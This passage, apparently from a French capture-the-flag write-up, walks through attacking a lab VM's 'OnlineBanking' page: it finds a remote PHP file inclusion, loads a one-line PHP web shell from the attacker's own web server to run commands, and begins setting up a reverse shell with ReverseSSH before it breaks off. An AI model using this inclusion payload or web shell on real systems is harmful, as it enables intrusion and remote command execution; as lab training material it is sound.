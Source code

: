 ```plain
Admin
Bill
Steve
Timothy
Jill
Quinten
```

A conserver au cas où. Pour le reste l'URL vers laquelle on est redirigée a un format qui pourrait correspondre à une faille d'inclusion PHP. Je tente donc d'ajouter un préfixe pour tester :  

```plain
http://192.168.56.11/OnlineBanking/index.php?p=http://127.0.0.1/welcome
```

Et ça paye :  

```plain
Warning: include(http://127.0.0.1/welcome.php): failed to open stream: Connection refused in /var/www/html/OnlineBanking/index.php on line 13

Warning: include(): Failed opening 'http://127.0.0.1/welcome.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/OnlineBanking/index.php on line 13
```

J'ai été assez chanceux sur ce coup puisque si on passe *welcome3* au paramètre alors aucune erreur n'est générée. Il y a donc une espèce de whitelisting qui est appliquée et les préfixes ne sont pas pris en compte.  

Sans utilisation du préfixe j'aurais potentiellement perdu du temps avant de trouver.  

Il ne reste plus qu'à fournir un serveur web (*python3 -m http.server*) contenant un fichier *welcome.php* qui exécutera le code PHP suivant :  

```php
<?php system($_GET['cmd']); ?>
```

On obtient ainsi notre exécution de commande :  

```plain
http://192.168.56.11/OnlineBanking/index.php?p=http://192.168.56.1:8000/welcome&cmd=id
```

Ça peut être assez contraignant de conserver ce shell lié à notre serveur (reboot de la VM, changement d'IP, etc) alors le mieux est de recopier le shell où c'est possible sur le serveur (ici */tmp/welcome.php*).  

First blood
-----------

L'accès permet de valider qu'on est dans un environnement container-isé : il n'y a que très peu d'outils réseau, notamment SSH est aux abonnés absents.  

Je vais donc me servir de [ReverseSSH](https://github.com/Fahrj/reverse-ssh) (ici en version 1.2.0).  

D'abord je met un port en écoute sur ma machine pour un scénario de reverse-shell :  
